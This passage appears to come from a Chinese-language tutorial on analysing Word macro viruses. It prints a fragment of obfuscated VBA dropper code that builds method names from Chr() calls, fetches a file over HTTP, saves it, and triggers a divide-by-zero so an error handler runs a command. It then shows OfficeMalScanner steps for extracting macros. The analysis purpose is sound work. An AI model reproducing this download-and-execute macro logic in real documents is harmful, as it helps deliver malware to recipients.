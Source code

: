 ```

Dim bvGEpxCVsZ() As Byte

' http  send
CallByName LhZitls7wPn, Chr(83) & Chr(101) & Chr(110) & Chr(100), VbMethod
' "responseBody"
bvGEpxCVsZ = CallByName(LhZitls7wPn, "r" & "e" & Chr(115) & Chr(112) & Chr(111) & Chr(110) & Chr(115) & Chr(101) & Chr(66) & Chr(111) & Chr(100) & "y", VbGet)
' 保存文件
FlvXHsDrWT3aY bvGEpxCVsZ, aDPbd2byZb
On Error GoTo OhXhZLRKh
    a = 84 / 0
  On Error GoTo 0
  
' 退出函数
xrIvr6mOXvFG:
  Exit Sub
' 进入
OhXhZLRKh:
  ' 执行命令函数
  ENMD3t8EY4A ("UfBPGay4VPJi")
Resume xrIvr6mOXvFG
End Sub
```

##### (3) 工具提取宏

 使用 OfficeMalScanner,可以将宏导出来以便分析。

- 1、解压文档文件

OfficeMalScanner.exe  宏病毒文档.docm inflate

- 2、提取宏代码

OfficeMalScanner.exe vbaProject.bin info

